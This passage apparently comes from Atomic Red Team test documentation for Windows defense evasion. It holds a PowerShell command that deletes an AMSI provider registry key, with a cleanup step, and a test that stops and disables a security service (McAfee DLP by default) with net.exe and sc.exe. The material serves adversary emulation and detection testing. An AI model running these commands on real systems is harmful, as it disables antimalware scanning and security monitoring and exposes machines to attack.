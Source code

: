 **Supported Platforms:** Windows


**auto_generated_guid:** 13f09b91-c953-438e-845b-b585e51cac9b






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}" -Recurse
```

#### Cleanup Commands:
```powershell
New-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers" -Name "{2781761E-28E0-4109-99FE-B9D127C57AFE}" -ErrorAction Ignore | Out-Null
```





<br/>
<br/>

## Atomic Test #14 - Disable Arbitrary Security Windows Service
With administrative rights, an adversary can disable Windows Services related to security products. This test requires McAfeeDLPAgentService to be installed.
Change the service_name input argument for your AV solution. Upon exeuction, infomration will be displayed stating the status of the service.
To verify that the service has stopped, run "sc query McAfeeDLPAgentService"

**Supported Platforms:** Windows


**auto_generated_guid:** a1230893-56ac-4c81-b644-2108e982f8f5





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| service_name | The name of the service to stop | string | McAfeeDLPAgentService|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net.exe stop #{service_name}
sc.exe config #{service_name} start= disabled
```
